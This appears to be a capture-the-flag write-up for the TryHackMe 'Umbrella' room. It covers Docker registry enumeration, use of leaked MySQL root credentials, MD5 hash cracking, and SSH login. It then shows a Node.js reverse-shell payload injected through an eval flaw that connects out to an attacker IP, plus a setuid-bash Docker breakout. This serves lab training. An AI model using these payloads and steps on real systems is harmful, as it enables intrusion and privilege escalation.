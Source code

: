 # Umbrella

**Room Link:** [**https://tryhackme.com/r/room/umbrella**](https://tryhackme.com/r/room/umbrella)



**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (996).png" alt=""><figcaption></figcaption></figure>



Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (997).png" alt=""><figcaption></figcaption></figure>



## **TCP/5000 - Docker Registry**

**List repositories**

**Kali**

```
curl -s http://$VICTIM:5000/v2/_catalog
```

<figure><img src="../../.gitbook/assets/image (998).png" alt=""><figcaption></figcaption></figure>

**Get tags of a repository**

**Kali**

```
curl -s http://$VICTIM:5000/v2/umbrella/timetracking/tags/list
```

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

**Get manifests**

Inside the manifest we find potential credentials

**Kali**

```
curl -s http://$VICTIM:5000/v2/umbrella/timetracking/manifests/latest
```

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

## **TCP/3306 - MySQL**

**Kali**

```
apt install mysql-client-core-5.7 
mysql -h $VICTIM -u root -p'Ng1-f3!Pe7-e5?Nf3xe5'
```

**Kali(mysql)**

```
show databases;
use timetracking;
show tables;
select * from users;
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py  
python3 hash-id.py 2ac9cb7dc02b3c0083eb70898e549b63
```

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

**hash.txt**

```
claire-r:2ac9cb7dc02b3c0083eb70898e549b63
chris-r:0d107d09f5bbe40cade3de5c71e9e9b7
jill-v:d5c0607301ad5d5c1528962a83992ac8
barry-b:4a04890400b5d7bac101baace5d7e994
```

**Kali**

```
john --format=raw-md5 hash.txt 
john --format=raw-md5 hash.txt --show
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

**output**

```
claire-r:Password1
chris-r:letmein
jill-v:sunshine1
```



## **TCP/22 - SSH**

**Kali**

```
ssh claire-r@$VICTIM
Password: Password1 
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

In Claire's home directory we see the files that host the website. We can see the timeCalc uses the eval statement which is vulnerable.

**Victim**

```
cd /home/claire-r/timeTracker-src
cat app.js
```

<figure><img src="../../.gitbook/assets/image (1012).png" alt=""><figcaption></figcaption></figure>

### **TCP/80:443 - HTTP(s)**

**Kali**

```
nc -lvnp 1337
```

**Login**

```
Username: claire-r
Password:Password1
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

**Payload**

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(1337, "10.10.245.149", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

<figure><img src="../../.gitbook/assets/image (1008).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1009).png" alt=""><figcaption></figcaption></figure>

Full TTY Shell

```
script -qc /bin/bash /dev/null
ctrl + Z
stty raw -echo;fg
```

<figure><img src="../../.gitbook/assets/image (1010).png" alt=""><figcaption></figcaption></figure>

## Docker Breakout

**Exploit:** [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

### Privilege Escalation with 2 shells and host mount

If you have access as **root inside a container** that has some folder from the host mounted and you have **escaped as a non privileged user to the host** and have read access over the mounted folder. You can create a **bash suid file** in the **mounted folder** inside the **container** and **execute it from the host** to privesc.

**Victim(root)**

```
find / -name "tt.log"
cd /logs
cp /bin/bash . 
chown root:root bash
chmod 4777 bash
```

**Victim(claire-r)**

```
find / -name "tt.log"
cd /home/claire-r/timeTracker-src/logs
./bash -p 
```



<figure><img src="../../.gitbook/assets/image (1011).png" alt=""><figcaption></figcaption></figure>

